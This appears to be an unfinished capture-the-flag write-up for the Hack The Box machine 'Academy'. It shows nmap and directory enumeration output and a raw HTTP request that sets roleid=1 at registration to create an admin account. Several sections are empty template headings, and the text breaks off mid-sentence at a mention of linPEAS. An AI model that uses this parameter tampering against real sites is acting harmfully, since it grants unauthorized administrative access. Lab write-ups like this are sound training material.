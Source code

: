 # Academy
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As we can se we have only port 22 and 80 opened, so without further doing let's dig into port 80.  
Before openinig port 80 we can see in nmap that the site is performing a redirection to ```Did not follow redirect to http://academy.htb/``` so let's set up this host in our /etc/hosts file and let's start enumerating webserver.  
First thing, hitting the website, we can see an 'acedemy' page. The page shows an image and nothing more, so, let's start enumerating the webserver looking for files and directories:  
```
/images               (Status: 301) [Size: 311] [--> http://academy.htb/images/]
/home.php             (Status: 302) [Size: 55034] [--> login.php]
/admin.php            (Status: 200) [Size: 2633]
/login.php            (Status: 200) [Size: 2627]
/.                    (Status: 200) [Size: 2117]
/index.php            (Status: 200) [Size: 2117]
/register.php         (Status: 200) [Size: 3003]
/config.php           (Status: 200) [Size: 0]
```
as we can see we discovered various links.  
Now we can try various scan, but at least, if we try to register a new account with the roleid (found in the registration request set to 1) we can register an admin account.  
```
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://academy.htb
Connection: close
Referer: http://academy.htb/register.php
Cookie: PHPSESSID=bv9043rgksnjungmplpk3ktqtn
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

uid=b0d&password=Password&confirm=Password&roleid=1
```
After we register the account we can login with the given credentials to admin.php, here we can find the below information:  
![[Pasted image 20220518103850.png]]
## Foothold (optional)

## User
### Method 1 - Technique 1
### Method 2 - Technique 2

## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice
